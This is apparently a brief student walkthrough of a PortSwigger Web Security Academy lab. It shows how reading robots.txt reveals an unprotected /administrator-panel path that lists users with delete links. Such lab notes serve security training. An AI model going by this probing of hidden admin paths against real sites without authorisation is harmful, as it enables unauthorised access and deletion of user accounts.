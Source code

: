 # 1 [Lab: Unprotected admin functionality](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality)

This lab has an unprotected admin panel.

Solve the lab by deleting the user carlos.

add to URL:

```bash
robots.txt
```

```bash
https://0aba0081040734fd80a385cd002c0010.web-security-academy.net/robots.txt
```

res:

```bash
User-agent: *
Disallow: /administrator-panel
```

add to URL:

```bash
/administrator-panel
```

send in URL:

```bash
https://0aba0081040734fd80a385cd002c0010.web-security-academy.net/administrator-panel
```

res:

```bash
Users
wiener - Delete
carlos - Delete
```
